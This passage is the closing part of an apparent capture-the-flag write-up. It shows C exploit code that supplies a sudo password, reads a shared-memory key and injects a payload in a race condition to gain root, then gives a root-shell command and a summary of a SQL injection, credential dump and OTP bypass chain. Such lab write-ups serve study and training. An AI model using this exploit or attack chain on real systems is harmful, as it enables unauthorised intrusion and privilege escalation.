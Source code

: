 ```cpp
    int injected = 0;
    
    // Run the vulnerable command with the sudo password automatically supplied.
    const char *cmd = "echo hiccup-publicly-genesis | sudo -S /opt/hash-checker/check-leak.sh bob";
    
    fp = popen(cmd, "r");
    if (!fp) {
        perror("[ERROR] popen failed");
        return 1;
    }
    
    while (fgets(buffer, sizeof(buffer), fp)) {
        printf("%s", buffer);
        if (!injected && strstr(buffer, "Using the shared memory") != NULL) {
            char *ptr = strstr(buffer, "0x");
            if (ptr) {
                key = (unsigned int)strtol(ptr, NULL, 16);
                printf("[DEBUG] Found shared memory key: 0x%X\n", key);
                inject_payload(key);
                injected = 1;
            }
        }
    }
    
    pclose(fp);
    return 0;
}
```

now run `/usr/bin/bash -p` and u are root

# Summary

1. **Enumeration:** Found **BookStack** on port 80 and **TeamPass** on port 8080.
2. **Exploitation:** Used **SQLi** to dump credentials from TeamPass.
3. **SSH Access:** Retrieved **Google Authenticator secret** from backups and bypassed OTP.
4. **Privilege Escalation:** Exploited **shared memory race condition** to gain root access.
